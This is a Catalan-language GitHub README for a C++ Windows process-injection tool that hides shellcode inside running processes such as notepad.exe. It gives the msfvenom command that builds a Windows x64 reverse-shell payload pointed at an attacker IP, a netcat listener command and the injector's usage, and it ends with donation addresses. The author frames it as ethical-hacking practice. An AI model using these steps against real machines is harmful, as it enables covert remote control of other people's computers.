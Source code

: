 ## Inject
Simple windows process code injection

## POC
El repte està en injectar un tros de codi executable dins un procés que ja es troba en execució. D'aquesta manera, el codi queda ocultat dins l'arbre de processos, com un fil d'execució dins un procés conegut, com per exemple, explorer.exe, notepad.exe, calc.exe, etc. El mateix que explico jo aquí, està explicat en molts llocs a internet.

## Descripció
En el repositori trobem una solució en c++ que mitjanant l' API de windows injecta codi en un procés que rep per la línia de comandes. El codi a injectar es troba en una variable **shellcode** en format de Bytecode. En l'exemple he utilitzat un petit codi que executa una shell inversa (reverse shell) de 6u bits (x64). Aquest codi, pot ser qualsevol cosa que se’ns passi pel cap. Però, ha de ser petit, quan més petit millor, ja que s'injecta en la memòria del procés. Podem trobar molt codi d'exemple per internet, un bon lloc és
https://www.exploit-db.com/shellcodes.

## Cas d'ús
El ByteCode (https://es.wikipedia.org/wiki/Bytecode) que utilitzat jo, no és funcional en qualsevol estació de treball, ja que està fet a mida perquè es connecti a un ordinador remot que jo he utilitzat.
Per fer la prova, calen dos ordinadors. Jo he utilitzat un Kali/linux per generar el ByteCode i per obrir un Netcat escoltat en un port (4444), on si tot va bé és connectarà el procés injectat.

Per generar el ByteCode he utilitzat una utilitat **msfvenom** del Framework Metasploit (https://www.metasploit.com/), instal.lat a Kali. Té moltes opcions, es digne d'estudi. Pot fer sortides de codi per diferents llenguatges i tecnologies. Pel cas que ens toca:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f c

Ex:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.28.123.152 LPORT=4444 -f c
```
La sortida la assignem a la variable **shellcode**. Tot seguit en un terminal de la Kali, engeguem el Netcat escoltant en el port triat.
```
nc -llvp 4444
```
Aquí, si tot va bé, és on ens trobarem una shell de windows de PC on hem injectat el codi.

Ara el en PC windows, on hi tenim el nostre programa **inject.exe**, engeguem per exemple el **notepad.exe**. Amb l'explorador de processos de windows, mirem el número de procés del **notepad.exe** (No tanquem l’arbre de processos, perquè això podem observar els fils d'execució que té). Tot seguit executem:
```
inject.exe [PID Notepad.exe]
Ex:
inject.exe 12345
```
Si tot ha anat bé, al Kali tenim una shell del windows amb els permisos d'usuari que té el procés del Notepad.exe a l'estació Windows. I a l'arbre de processos, un fil penjant del **Notepad.exe**

A partir d'aquí imaginació (no vull donar idees). És un pas necessari si et vols iniciar en el Hacking Ètic.

**La cançó** (Sempre escolto música quan escric, programo, penso en solucions...)

https://www.youtube.com/watch?v=bwNzGT-UX7c


Donacions

BTC = bc1q33wmuc0lcwh4krchfmxrt4jak3v628z658f85j

TRX = TRdxjgLv4nr8GYwsdXkUv4ZwCCTvfMqgnS

ETH = 0x3582cf65c158b23bbbaee3e3a3158ce4b5d99978

:_)
